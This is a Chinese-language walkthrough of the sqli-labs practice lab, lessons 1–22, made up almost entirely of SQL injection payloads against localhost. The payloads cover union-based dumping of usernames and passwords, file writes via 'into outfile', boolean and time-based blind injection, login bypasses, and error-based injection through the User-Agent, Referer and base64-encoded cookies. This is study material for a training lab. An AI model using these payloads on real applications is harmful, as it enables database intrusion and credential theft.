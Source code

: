 # sqli-labs

-    ##  less 1

     -  判断是否可以注入
     -  判断列数  
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 4 -- a`
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=1'order by 3 -- a`
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1'union select 1,2,3 -- +`
     - 爆库
       - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata -- +`
     - 爆库下的表  
       -  `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' -- +`
     - 表下的列
        - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(column_name),3 from information_schema.columns where table_name='users' -- a`
     - result
       - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-1/?id=-1' union select 1,GROUP_CONCAT(username),GROUP_CONCAT(password) from users -- a`
-    ##  less 2
     - 与less1相同，只需要去掉      <b> '</b>       即可
-    ##  less 3
     - ` $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`
     - 需要闭合 &emsp;<b>')</b>

-    ##  less 4
     -  对于字段是int类型的，如果你传入字符串（无论是在select, insert 还是 update)，他会尝试转为数字的
     -   `$id = '"' . $id . '"';`
     -   `$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";`
     -  如此闭合   
		`http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-4/?id=1") order by 3  -- a`

-   ##   less 5,6 
    - 均为盲注内容
    - <a href="盲注.md">盲注</a>
-   ##   less 7
    - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-7/?id=1'))  union select 1,2,3 into outfile "F:\\wampserver\\wamp64\\tmp\\file\\uuu3.txt" -- a`

-   ##   less 8
    - 延迟注入
    - `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-8/?id=1' and 1=(if(SUBSTRING((select DATABASE()),1,1)='s',1,0))-- a`
-   ##   less 9
    -   无论输入对错 都返回 you are in
    -   基于时间盲注
    -   `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-9/?id=1' and  if((select database())='securitys',sleep(5),1)  -- a`

-   ##   less 10
    -   同 less9
    -   `http://localhost/sqllib/sqli-labs-master/sqli-labs-master/Less-10/?id=1" and if((select database())='security',sleep(5),1) -- a`
-   ##   less 11
    -   post注入
    -   提交 `1admin'union select 1,database()#`
-   ##   less 12
    -   `1admin")union select 1,database()#`
-   ##   less 13
    -   `1admin')or left(database(),1)='s' -- a`
-   ##   less 14
    -   `1admin" or left(database(),1)='s' -- a`
-   ##   less 15
    -   `adm1in1'or 1=(If(substr(database(),1,1)='s',1,2))#`
-   ##   less 16
    -   `adm1in1") or 1=(If(substr(database(),1,1)='s',1,2))#`
-   ##   less 17
    -  ` admin`
    -   `123' and and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`
-   ##   less 18
    -   `admin`
    -   `admin`
    -   user-agent:` 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1`
-   ##   less 19
    -   `admin`
    -   `123`
    -   `Referer: 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1`
-   ##   less 20
    -   cookie  = `admin' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) -- a`

-   ##  less 21
    -   查看源码后，发现对提交的cookie进行了base64解码，那么先对payload进行编码
    -   `admin') and (extractvalue(1,concat(0x7e,(select user()),0x7e))) -- a`
    - `YWRtaW4nKSBhbmQgKGV4dHJhY3R2YWx1ZSgxLGNvbmNhdCgweDdlLChzZWxlY3QgdXNlcigpKSwweDdlKSkpIC0tIGE`
-   ##   less 22
    -   同上，对 `admin" and (extractvalue(1,concat(0x7e,(select user()),0x7e))) -- a` 进行编码